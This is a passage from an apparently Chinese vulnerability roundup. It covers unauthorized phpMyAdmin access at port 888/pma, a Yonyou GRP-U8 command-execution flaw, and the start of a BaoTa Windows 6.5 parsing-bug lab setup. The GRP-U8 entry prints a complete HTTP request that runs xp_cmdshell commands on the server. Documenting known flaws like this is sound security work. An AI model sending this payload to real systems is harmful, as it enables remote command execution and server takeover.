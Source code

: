 *   **漏洞危害：**  
    泄露用户信息，系统信息。某些服务和系统中，未授权访问还可以执行系统命令，破坏系统数据。
    
*   **漏洞利用：**访问目标 ip:888/pma ，未授权访问 phpmyadmin：
    

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5BUpAicG3zibMDvRvQJhFaWzeDtQO8f9UohUsdcfkeAzGvup6g9KFiah6GM9M6NDmK9MOqmLTATxh2Q/640?wx_fmt=png)

##### 6、用友 GRP-U8 命令执行漏洞

*   **漏洞详情：**  
    当用户可以控制命令执行函数中的参数时，将可注入恶意系统命令到正常命令中，造成命令执行攻击
    
*   **影响版本：**用友 GRP-U8
    
*   **漏洞危害：**  
    继承 Web 服务程序的权限去执行系统命令或读写文件、  
    反弹 shell、控制整个网站甚至控制服务器、进一步内网渗透等
    
*   **漏洞利用：**
    

```
POST /Proxy HTTP/1.1
Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: localhost
Content-Length: 341
Connection: Keep-Alive
Cache-Control: no-cache
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS\_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp\_cmdshell 'whoami'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET

```

##### 7、宝塔 windows 6.5 版本存在解析漏洞

*   **环境搭建:**
    =========
    

Windows Server 2012 R2 X64#
---------------------------

宝塔 Windows 6.5.0 版本#
--------------------

宝塔选择：MySQL + PHP-5.4+ IIS 8.5
-----------------------------

![](https://mmbiz.qpic.cn/mmbiz_png/HQn53QYo2G5aEr5pqGf9PumWoJxnrqhEicQTicN6kiaRVqibFPyoVdGUsvICjCeDYP1S2FYW34tKnR8RxfuvQHxnbg/640?wx_fmt=png)

源码使用公开的 PHP 上传源码:#  

=====================

https://www.runoob.com/wp-content/uploads/2013/08/runoob-file-uplaod-demo.zip#
------------------------------------------------------------------------------
